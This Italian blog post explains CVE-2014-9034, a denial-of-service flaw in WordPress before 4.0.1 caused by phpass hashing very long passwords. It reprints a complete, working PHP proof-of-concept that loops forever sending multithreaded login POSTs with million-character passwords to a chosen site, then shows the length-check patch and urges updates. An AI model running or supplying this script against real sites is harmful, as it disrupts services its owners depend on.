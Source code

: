 ```yaml
---
layout: post
author: thesp0nge
title: "Tesoro, si è rotto il blog"
modified: 2014-12-02 07:55:30 +0100
category: [Under attack]
tags: [wordpress, wordstress, blog, dos, exploit, CVE-2014-9034]
image:
  feature: ciuccio.png
comments: true
share: true
---
```


## Premesse e piccoli aggiornamenti

In questo mese e mezzo quasi di silenzio mi sono dedicato ad una dashboard per
i risultati di [wpscan](http://wpscan.org) che ho mostrato anche all'ultimo
Festival ICT nel mio talk.

Spinoff di questa dashboard è un tool,
[wordstress](https://github.com/thesp0nge/wordstress) che vuole essere
un'alternativa al più blasonato wpscan ma dedicato unicamente al test whitebox.

Il problema di wpscan, secondo me, è che provando a fare enumerazione dei
plugin e dei temi, poi fallisca nel rilevare la versione e quindi io mi trovo
un report con dei falsi positivi. Questi falsi positivi devono essere
analizzati e filtrati e questo si traduce in lavoro per l'appsec guy... che
sono io. Visto che la mia battaglia per i prossimi anni è "automatizzare
l'automatizzabile", questa parte di analisi voglio farla sparire.

Voglio quindi lavorare installando sul blog un plugin, che devo ancora
scrivere, che mi dica i plugin e i temi installati con l'esatta versione. Con
risultati più accurati io posso dedicarmi ad ammirare la dashboard e ad
indirizzare le reali vulnerabilità che vengono rilevate.

## L'effetto ciucciotto

Mia figlia Anna, e Daniele prima di lei, ama i suoi ciucci. Ci sono giorni che
non ne può fare a meno. Che cadano per terra, si intrufolino in pertugi o siano
lindi ed immacolati per lei non fa importanza. Il ciucciottamento felice è un
bel passatempo.

Ecco, [wordpress](https://wordpress.org) è come il ciucciotto di Anna; attira
vulnerabilità e issue di sicurezza con la velocità con la quale un ciucciotto
cadendo per terra attira batteri e bacilli.

> Volendo fare un'iperbole, wordpress è il windows delle applicazioni web.

In passato è stato martoriato, ora è un po' più robusto, ma a naso[^1] per una
versione X, escono almeno 3 issue di security al mese.

## CVE-2014-9034

Il 25 Novembre, è uscita la vulnerabilità
([CVE-2014-9034](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-9034))
che interessa le versioni di wordpress antecedenti alla 4.0.1. La classe
class-phpass.php non gestisce bene password lunghe durante la fase di hashing,
questo permette ad un attaccante di causare un denial of service facendo una
serie di richieste con password lunghe, facciamo dalle migliaia di caratteri in
su.

La PoC per sfruttare la vulnerabilità è disponibile in rete ed è molto
semplice: faccio una POST con una password di un milione di caratteri e ripeto
questa POST tante volte.



{% highlight php %}

<?php

echo "\nCVE-2014-9034 | WordPress <= v4.0 Denial of Service Vulnerability\n";
echo "Proof-of-Concept developed by john@secureli.com (http://secureli.com)\n\n";
echo "usage: php wordpressed.php domain.com username numberOfThreads\n";
echo " e.g.: php wordpressed.php wordpress.org admin 50\n\n";

echo "Sending POST data (username: " . $argv[2] . "; threads: " . $argv[3] . ") to " . $argv[1];

do {
 
$multi = curl_multi_init();
$channels = array();

for ($x = 0; $x < $argv[3]; $x++) {
	$ch = curl_init();

	$postData = array(
		'log' => $argv[2],
		'pwd' => str_repeat("A",1000000),
		'redirect_to' => $argv[1] . "/wp-admin/",
		'reauth' => 1,
		'testcookie' => '1',
		'wp-submit' => "Log%20In");

	$cookieFiles = "cookie.txt";

	curl_setopt_array($ch, array(
	    CURLOPT_HEADER => 1,
	    CURLOPT_USERAGENT => "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.6) Gecko/20070725 Firefox/2.0.0.6",
	    CURLOPT_REFERER => $argv[1] . "/wp-admin/",
	    CURLOPT_COOKIEJAR => $cookieFiles,
	    CURLOPT_COOKIESESSION => true,
	    CURLOPT_URL => $argv[1] . '/wp-login.php',
	    CURLOPT_RETURNTRANSFER => true,
	    CURLOPT_POST => true,
	    CURLOPT_POSTFIELDS => $postData,
	    CURLOPT_FOLLOWLOCATION => true));
    curl_multi_add_handle($multi, $ch);
 
    $channels[$x] = $ch;
}
 
$active = null;

do {
	$mrc = curl_multi_exec($multi, $active);
} while ($mrc == CURLM_CALL_MULTI_PERFORM);
 
while ($active && $mrc == CURLM_OK) {
    do {

        $mrc = curl_multi_exec($multi, $active);
    } while ($mrc == CURLM_CALL_MULTI_PERFORM);
}

foreach ($channels as $channel) {
    curl_multi_remove_handle($multi, $channel);
}
 
curl_multi_close($multi);
echo ".";
} while (1==1);

?>

{% endhighlight %}

Il problema è nella libreria [phpass](http://www.openwall.com/phpass) di Solar
Designer che quando esegue l'hash di una password lunga, usa troppa CPU.
[Stesso
problema](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-9016) che
ha afflitto Drupal di recente, visto che entrambi usano questa libreria.

La [versione corretta della libreria
phpass](https://github.com/WordPress/WordPress/blob/master/wp-includes/class-phpass.php),
introduce un controllo sulla lunghezza della password nella funzione
HashPassword.

{%highlight php%}
function HashPassword($password)
{
  if ( strlen( $password ) > 4096 ) {
    return '*';
  }
  $random = '';
  ...
{%endhighlight%}

Lo stesso controllo nella routine CheckPassword

{%highlight php%}
function CheckPassword($password, $stored_hash)
{
  if ( strlen( $password ) > 4096 ) {
    return false;
  }
  ...
{%endhighlight%}

Se quindi siete impossibilitati ad aggiornare Wordpress per qualche ragione
**incomprensibile** che **non** voglio neanche conoscere, potete fare patching
della libreria rimanendo alla versione di wordpress che avete installato.
Attenzione però, che questi due controlli rimediano solo questa issue, non le
[altre](http://openwall.com/lists/oss-security/2014/11/25/12).


Come si vede dal [post sulla mailing list per l'assegnazione dei
CVE](http://openwall.com/lists/oss-security/2014/11/25/12), ci sono altre issue
di security sempre censite lo stesso giorno e coperte dalla release 4.0.1 che,
ovviamente, è la soluzione ai problemi... di questo inizio di inverno.

## Off by one

Wordpress è bersagliato, complice il fatto di essere leader del mercato delle
piattaforme di blogging. Potrebbe essere un vanto questo. Il problema semmai è
nostro.

Aggiorniamo i nostri wordpress? Controlliamo i plugin ed i temi? Manteniamo il
nostro codice? Disaccoppiamo il codice custom dal core?

Se lo facciamo, sarà come dare sempre una rinfrescata al nostro ciucciotto.

Enjoy it!

**UPDATE**

So che il lettore fedele lo sa già, ma lanciare il poc su un blog che non si è
autorizzati a testare, è un reato da codice penale praticamente da ogni parte
del mondo.
Quindi, fatelo solo per test sui wordpress vostri o della società alla quale
appartenete.

[^1]: ho osservato un po' qualche versione, ma non ho fatto una statistica vera.
